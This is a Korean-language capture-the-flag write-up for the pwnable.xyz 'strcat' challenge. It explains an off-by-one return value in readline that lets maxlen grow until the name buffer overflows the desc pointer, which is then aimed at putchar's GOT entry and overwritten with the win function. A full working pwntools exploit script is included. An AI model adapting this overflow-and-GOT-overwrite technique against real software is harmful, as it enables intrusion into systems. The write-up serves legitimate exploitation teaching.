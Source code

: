 ```yaml
---
title: "[pwnable.xyz]strcat"
date: 2020-1-30
ctf: Pwnable.xyz
layout: post
published : false
---
```


Canary, PIE가 안걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

바이너리는 3개 메뉴로 되어있다. concat, edit, print 으로 되어있다.

concat메뉴는 maxlen-strlen(name) 만큼 입력받고 maxlen에서 readline 리턴 값만큼 빼준다.

edit메뉴는 desc 힙영역에 값 수정할 수 있다.

print메뉴에서는 fsb가 터진다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed __int64 v3; // rsi
  char *v4; // rdi
  int v5; // eax
  int v6; // ebx
  unsigned int v7; // ebx

  setup();
  puts("My strcat");
  maxlen = 128;
  printf("Name: ", argv);
  maxlen -= readline(name, 128);
  desc = malloc(32uLL);
  printf("Desc: ", 128LL);
  v3 = 32LL;
  v4 = desc;
  readline(desc, 32);
  while ( 1 )
  {
    print_menu(v4, v3);
    printf("> ");
    v5 = read_int32();
    switch ( v5 )
    {
      case 2:                                   // edit
        printf("Desc: ");
        v3 = 32LL;
        v4 = desc;
        readline(desc, 32);
        break;
      case 3:                                   // print
        printf(name);
        printf(desc);
        v4 = '\n';
        putchar('\n');
        break;
      case 1:                                   // concat
        printf("Name: ");
        v6 = maxlen;
        v7 = v6 - strlen(name);
        v3 = v7;
        v4 = &name[strlen(name)];
        maxlen -= readline(v4, v7);
        break;
      default:
        v4 = "Invalid";
        puts("Invalid");
        break;
    }
  }
}
```

readline 함수인데 리턴을 strlen(name) - 1을 해준다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(name);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

이를 이용해서 풀 수 있다. strlen(name) -1을 해줘서 리턴하는데 만약 1번 메뉴에서 maxlen -= readline() 해주는데 strlen(name)의 길이가 0이면 readline 리턴이 -1이니까 maxlen을 계속 늘려줄 수 있다.

```
maxlen 0x0000000000602280 (32)
name 0x00000000006022A0 (128)
desc 0x0000000000602320
```

bss 영역이 이렇게 있고 maxlen이 128인데 maxlen을 늘려서 desc를 덮을 수 있다. 그리고 desc에는 힙 영역을 가르키고 있으므로 이 영역을 함수 got로 덮고 edit 메뉴에서 이 got를 win함수로 덮어주면 된다

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30013)
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)
win = e.symbols['win']
maxlen = 0x0000000000602280
name = 0x00000000006022A0
desc = 0x0000000000602320
puts_got = 0x602028

sa(':','A') # Name
sa(':','B') # Desc

for i in range(20):
	sa('>','1')
	sa(':','\x00')

sa('>','1')
sa(':','A'*128+'\x20\x20\x60\x20') # 0000000000602020 R_X86_64_JUMP_SLOT  putchar@GLIBC_2.2.5

sa('>','2')
sa(':',p64(win)) # putcahr@got -> win
# raw_input()

sa('>','3') 

p.interactive()
```

